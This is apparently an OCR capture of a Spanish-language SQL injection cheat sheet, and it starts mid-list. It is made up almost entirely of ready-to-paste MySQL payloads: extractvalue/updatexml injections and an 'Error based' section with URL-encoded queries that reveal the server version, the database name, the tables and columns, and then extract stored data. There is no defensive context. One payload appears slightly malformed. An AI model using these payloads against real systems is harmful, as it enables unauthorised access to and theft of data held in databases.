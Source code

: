 ```
+and extractvalue(0x0a,concat(0x0a,(select concat(columna) from tabla limit 0,1)))

+and updatexml(null,concat(0x0a,(select concat(columna) from tabla limit 0,1)),null)


```

## Error based

```
Version:
+OR+1+GROUP+BY+CONCAT_WS(0x3a,VERSION(),FLOOR(RAND(0)*2))+HAVING+MIN(0)+OR+1

Database():
+AND(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(DATABASE()+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema=DATABASE()+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)

Tablas:
+AND(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(table_name+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema=0x7461626c65+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)

Columnas:
+AND+(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(column_name+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+table_name=0x636f6c756d6e61+AND+table_schema=0x7461626c65+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)

Extraer información:
+AND+(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(CONCAT(columna+AS+CHAR),0x7e))+FROM+table+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)


```
